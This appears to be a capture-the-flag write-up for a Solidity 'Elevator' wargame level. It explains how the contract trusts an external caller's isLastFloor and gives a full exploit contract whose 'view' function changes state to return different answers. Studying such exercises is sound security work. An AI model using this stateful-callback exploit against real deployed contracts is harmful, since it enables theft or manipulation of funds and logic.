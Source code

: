 # Elevator
```javascript
pragma solidity ^0.4.18;


interface Building {
  function isLastFloor(uint) view public returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

> This elevator won't let you reach the top of your building. Right?

> Things that might help:
> * Sometimes solidity is not good at keeping promises.
> * This Elevator expects to be used from a Building
> 

In this challenge, let `top` become true.

`Building building = Building(msg.sender);` will create `Building` object in your contract and use `isLastFloor` in your interface.

Simply, let's overwrite the `isLastFloor`, make it return `false` first to make `elevaator`'s `floor` become the number we gave, then 2nd time return `true` to make `top` value remain in `true`.

However, in `view` modifier, function will never change any contract state:

> Functions can be declared view in which case they promise not to modify the state.

That means, we cannot make view function return to oppsitive result by its own, **in theory**.

Promise just a promise, solidity's compiler doesn't keep its promise.

> view functions: The compiler does not enforce yet that a view method is not modifying state.

So, let's write a contract with a `isLastFloor` function in `view` modifier which will modify the contract state.

```javascript
pragma solidity ^0.4.18;

interface Building {
  function isLastFloor(uint) view public returns (bool);
}

contract Elevator {
  function goTo(uint _floor) public{}
}

contract forceEnd is Building{
      uint count = 0;
      function isLastFloor(uint) view public returns (bool){
        if(count == 0){
            count=1;
            return false;
        } else {
            return true;
        }        
      }
      function endIt(address param) public{
          Elevator target = Elevator(param);
          target.goTo(8787);
      }
}
```

Yup, `isLastFloor` will change global variable: `count`, in claim with `view` modifier.

Deploy the contract with Remix IDE and trigger the `endIt` function with your instance address.

![](https://i.imgur.com/HQwLgEw.png)
